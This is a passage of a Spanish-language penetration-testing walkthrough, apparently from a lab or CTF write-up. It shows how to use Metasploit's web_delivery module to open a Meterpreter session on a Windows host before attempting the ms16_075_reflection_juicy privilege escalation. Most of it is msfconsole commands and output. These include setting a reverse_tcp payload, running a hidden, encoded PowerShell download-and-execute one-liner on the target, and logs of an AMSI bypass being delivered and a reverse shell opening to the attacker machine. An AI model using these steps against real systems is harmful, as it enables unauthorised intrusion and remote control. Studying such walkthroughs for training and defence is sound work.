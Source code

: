 <br>

<h2 id="Metasploit">Escalando Privilegios con Módulo ms16_075_reflection_juicy de Metasploit</h2>

Antes de eso, necesitamos saber si la máquina es vulnerable a algún Exploit.

Para esto, primero necesitamos obtener una **sesión de Meterpreter** y para hacerlo, ocuparemos el **módulo web_delivery** que necesita una sesión de **PowerShell**.

<br>

<h3 id="Meterpreter">Obteniendo Sesión de Meterpreter con Módulo web_delivery</h3>

Primero, vamos a obtener una sesión de **Meterpreter** con el módulo `exploit/multi/script/web_delivery`:
```bash
msfconsole -q
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) >
```

Vamos a configurarlo:
```bash
msf6 exploit(multi/script/web_delivery) > set LHOST Tu_IP
LHOST => Tu_IP
msf6 exploit(multi/script/web_delivery) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
```

Y lo ejecutamos:
```bash
msf6 exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on Tu_IP:5555 
[*] Using URL: http://Tu_IP:8080/PLN
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBO.................
```

Copia ese comando y ejecútalo en la sesión que tienes activa:
```batch
PS C:\Users\hacker\Downloads> powershell.exe -nop -w hidden -e WwBO
```

Observa el **Metasploit**:
```bash
[*] 192.168.1.180   web_delivery - Delivering AMSI Bypass (1399 bytes)
[*] 192.168.1.180   web_delivery - Delivering Payload (3492 bytes)
[*] Sending stage (177734 bytes) to 192.168.1.180
[*] Meterpreter session 10 opened (Tu_IP:5555 -> 192.168.1.180:49194) at 2025-03-18 16:19:09 -0600

msf6 exploit(multi/script/web_delivery) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                                                      Connection
  --  ----  ----                     -----------                                                                      ----------
  1         meterpreter x86/windows  WIN-RE8NJPG9K5N\hacker @ WIN-RE8NJPG9K5N                                         Tu_IP:5555 -> 192.168.1.180:49194 (192.168.1.180)
```
Listo, ya tenemos una **sesión de Meterpreter**.
